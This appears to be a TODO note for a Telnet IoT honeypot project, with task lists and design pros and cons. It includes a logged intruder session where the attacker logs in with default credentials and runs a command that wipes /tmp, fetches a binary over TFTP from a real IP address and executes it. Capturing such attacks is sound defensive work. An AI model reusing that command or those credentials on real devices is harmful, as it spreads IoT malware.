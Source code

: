 # Telnet IoT honeypot TODO

## Small

### clean up html/php frontend
### auto update Malware Scan Results from virustotal (done by virustotal_fill_db.py for now)
### support for tftp

	2016-12-27 19:56:15   main.py:156       New Session
	2016-12-27 19:56:15   main.py:157       Setting timeout to 100.0 seconds
	2016-12-27 19:56:15   main.py:212       TEST 1
	2016-12-27 19:56:15   main.py:235       SEND IAC  - interpret as command
	2016-12-27 19:56:15   main.py:235       SEND DO   - set option
	2016-12-27 19:56:15   main.py:237       SEND 1
	2016-12-27 19:56:16   main.py:247       RECV IAC  - interpret as command
	2016-12-27 19:56:16   main.py:247       RECV WONT - negative return
	2016-12-27 19:56:16   main.py:176       USER Admin
	2016-12-27 19:56:16   main.py:177       PASS 5up
	2016-12-27 19:56:17   main.py:182        # cd /var/tmp;cd /tmp;rm -f *;tftp -l 7up -r 7up -g 89.33.64.118;chmod a+x 7up;./7up
	2016-12-27 19:56:17   main.py:182        # system

## Big

### Client/Server Modell

*Idea*
client (the real honeypot) runs as a telnet server (as now) but all conns and urls are just pushed do a db server, downloading and "analyzing" the binaries.

*PRO*
More servers than one possible (to increase the surface to catch connections)

*CONTRA*
I so not have more than one public IP, so multiple honeypots are useless + Multple IP's can be served via Firewall rules